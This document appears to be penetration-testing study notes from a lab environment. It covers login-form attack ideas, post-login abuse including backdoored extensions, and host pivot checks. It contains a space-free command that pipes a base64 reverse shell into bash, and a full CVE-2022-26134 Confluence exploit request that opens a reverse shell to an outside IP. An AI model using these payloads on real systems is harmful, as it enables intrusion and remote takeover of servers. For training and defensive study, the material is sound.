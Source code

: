 #### No Spaces in Payload Work-Around

```bash
{echo,-n,**base64 encoded reverse bash shell**}|{base64,-d}|bash
```

This can overcome rules that don’t allow for spaces. 

#### Login Forms

When you run into login forms, think SQLi, Code injection, error-message username enumeration, search default credentials, brute-forcing with hydra/wfuzz, search web for exploits, SSTIs, custom wordlists with cewl.

#### Once Logged In

Assess the functionality provided to us and see if we can abuse it.

Look for service versions (exploit-db), abusing file-upload vulnerability, user privileges may be able to be changed, code execution directly in a new post/page, look for modules, extensions & addons or create your own with backdoors, look for a downgrade attack on the target machine/cms, edit some pre-existing extension or functionality to plant executable code, look for interesting data, credentials

#### Using Public Exploits

It's important to at least psyeudo understand the payload that you are using, if nothing else, to make sure that it works on your end. For example, CVE-2022-26134 for Confluence uses the following payload:

```bash
curl -v http://192.168.235.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.213/1271%200%3E%261%27%29.start%28%29%22%29%7D/
```

If you didn't study the payload, you wouldn't see the there are certain characters in the payload that *aren't* url endcoded. These characters are like this for a reason. You can extrapolate to many other payloads. 

#### Find and Kill Process Running on a Port

```bash
sudo lsof -i :2345
kill -9 <PID>
```

#### Is the Computer Connected to Other Internal Computers?

When looking at the output from ifconfig, ipconfig, or ip addr, see if there is more than one network interface (other than the loopback). If there is, that is very interesting, and you should enumerate, if not, just focus on the computer itself. The target machine below is not connected to the internal network and we cannot use it as a pivot point.

```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:26:5d brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    inet 192.168.50.244/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:265d/64 scope link 
       valid_lft forever preferred_lft forever
```